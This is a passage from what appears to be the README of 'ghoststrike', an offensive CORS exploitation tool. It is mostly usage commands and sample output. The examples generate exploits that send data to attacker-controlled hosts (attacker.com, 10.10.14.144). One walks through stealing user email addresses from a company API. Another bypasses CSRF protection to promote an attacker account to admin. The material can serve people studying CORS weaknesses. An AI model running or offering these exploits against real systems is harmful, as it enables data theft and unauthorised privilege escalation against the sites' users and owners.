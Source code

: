 **Manual:**
```bash
python3 ghoststrike.py --generate cors-wildcard \
  -t http://192.168.1.50/admin \
  -e https://attacker.com/log
```

---

## Real-World Examples

### Example 1: API Data Exfiltration

**Target:** Company API with user data

```bash
# Scan the API
python3 ghoststrike.py --scan -u https://api.company.com/v1/users \
  -H "Authorization: Bearer eyJhbGc..." -v

# Output shows: Arbitrary Origin Reflection (High)

# Generate exploit
python3 ghoststrike.py --generate cors-exfil \
  -t https://api.company.com/v1/users \
  -e https://10.10.14.144:4443/log \
  --element-id userList \
  --server --ssl --port 4443

# Deliver: https://10.10.14.144:4443/exploit
```

**Result:**
```
[+] EXFILTRATED DATA:
<ul id="userList">
  <li>admin@company.com</li>
  <li>user1@company.com</li>
  <li>user2@company.com</li>
  ...
</ul>

[*] Full data saved to: ghoststrike_exfil.txt
```

### Example 2: Admin Action Bypass

**Target:** Admin panel with CSRF protection

```bash
# Scan for CORS
python3 ghoststrike.py --scan -u https://admin.target.com/profile -v

# Found: Arbitrary Origin Reflection + CSRF tokens

# Generate bypass exploit
python3 ghoststrike.py --generate csrf-bypass \
  -t https://admin.target.com/users/promote \
  --csrf-endpoint https://admin.target.com/profile \
  --token-id csrf_token \
  --username attacker \
  --server --ssl --port 4443
```
